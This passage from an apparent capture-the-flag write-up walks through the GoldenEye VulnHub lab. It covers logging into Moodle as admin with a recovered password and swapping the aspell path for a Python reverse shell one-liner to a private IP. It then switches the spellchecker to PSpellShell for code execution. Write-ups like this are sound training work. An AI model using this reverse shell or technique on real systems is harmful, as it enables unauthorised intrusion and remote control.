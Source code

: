 ![Screenshot]({{ site.baseurl }}/images/posts/2017/goldeneye/base64.png)

`xWinter1995x!` looks like a password. Based off the note, we can confirm it is.

Trying to login using `admin:xWinter1995x!`

![Screenshot]({{ site.baseurl }}/images/posts/2017/goldeneye/admin.png)

Great we now have administration rights. After poking around in the admin section, there is a area which displays information about the web software + server information.

In Environment, we are presented with the version:

![Screenshot]({{ site.baseurl }}/images/posts/2017/goldeneye/version.png)

After trying some exploits, and not having any luck. I poked around a bit more, and found System Paths.

![Screenshot]({{ site.baseurl }}/images/posts/2017/goldeneye/systempaths.png)

## iii. Reverse Shell

It seemed that this was the system path for the spellchecker. Which meant, whenever the spellchecker would be called it would execute this command to activate the spellchecker.

I tried replacing the path to aspell with a python reverse shell.

![Screenshot]({{ site.baseurl }}/images/posts/2017/goldeneye/aspellpath.png)

~~~
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
~~~

Then I enumerated Moodle some more and found a location where I can post. (Under blogs)

![Screenshot]({{ site.baseurl }}/images/posts/2017/goldeneye/blog.png)

Nothing happened, I didn't get a shell back. I then read the source code of the Metasploit exploit and realized this exploit was doing the same thing I was doing, a great coincidence. 

I then read the exploit some more, and I found I missed changing the text editor which would use aspell.

![Screenshot]({{ site.baseurl }}/images/posts/2017/goldeneye/metasploit.png)

The exploit is making a POST request to `editorsettingstinymce` and changing the text editor to `PSpellShell`
(The default was Google Spell), updating the settings:

![Screenshot]({{ site.baseurl }}/images/posts/2017/goldeneye/settings.png)


[0]: http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
[1]: https://www.vulnhub.com/entry/goldeneye-1,240/